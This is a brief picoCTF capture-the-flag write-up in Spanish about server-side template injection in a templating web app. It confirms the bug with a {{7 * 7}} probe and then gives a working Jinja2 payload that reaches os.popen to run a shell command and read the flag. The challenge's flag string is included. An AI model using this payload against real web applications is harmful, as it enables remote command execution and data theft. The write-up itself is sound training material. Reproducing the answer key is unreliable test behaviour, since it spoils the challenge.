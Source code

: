 I made a cool website where you can announce whatever you want! Try it out!I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:55768/)!

Hints:
 1. Server Side Template Injection

## Solución:
Revisamos si existe la vulnerabilidad simple con un ejemplo como {{7 * 7}} , al ver que nos arroja el resultado de la multiplicación, vemos que existe la vulnerabilidad, entonces al ingresar el siguiente comando:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

Obtenemos la flag:
# picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```